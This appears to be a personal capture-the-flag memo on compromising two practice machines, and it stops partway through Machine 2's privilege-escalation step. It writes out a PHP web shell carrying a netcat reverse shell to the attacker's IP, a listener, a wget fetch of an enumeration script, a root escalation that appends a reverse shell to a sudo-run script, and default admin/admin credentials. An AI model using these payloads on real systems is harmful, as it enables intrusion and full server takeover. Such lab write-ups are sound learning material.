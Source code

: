 # Getting
# Memo
## Machine 1
target ip: XXX.XXX.XXX.XXX  
my external ip: YYY.YYY.YYY.YYY  
my external port: 9443(user shell), 8080(file transfer), 8443(root shell)  
- upload php  
    image.php  
    ```php
    <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YYY.YYY.YYY.YYY 9443 >/tmp/f"); ?>
    ```
- access to an uploaded php  
    ```bash
    $ curl http://XXX.XXX.XXX.XXX/nibbleblog/content/private/plugins/my_image/image.php
    ```
- set port-forwarding fow WSL and allow fire-wall for user shell  
- set acceptable shell on WSL  
    ```zsh
    $ nc -lvnp 9443
    ```
- preserve `LinNum.sh`  
- open http server with python  
    ```python
    $ python -m http.server 8080
    ```
- set port-forwarding fow WSL and allow fire-wall for file transfer  
- access from target shell to my computer  
    ```bash
    $ wget http://YYY.YYY.YYY.YYY:8080/LinEnum.sh
    ``````
- run `LinuEnum.sh` on the target machine  
- set port-forwarding fow WSL and allow fire-wall for root shell  
- get root on the target machine  
    - use sudo user and file  
        ```bash
        echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YYY.YYY.YYY.YYY 8443 >/tmp/f' | tee -a monitor.sh
        ```


## Machine 2
target ip: XXX.XXX.XXX.XXX  
my external ip: YYY.YYY.YYY.YYY  
my external port: 9443(user shell), 8000(file transfer)  
- Enumeration  
    - access URL "/admin"  
        ID/PW : admin/admin  
- Exploit  
    - upload image.php manually  
    ```php
    <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YYY.YYY.YYY.YYY 9443 >/tmp/f"); ?>
    ```
- Enumeration  
    - search something on the target machine  
- Privilege Escalation  
    - upload my.php manually  
        ```php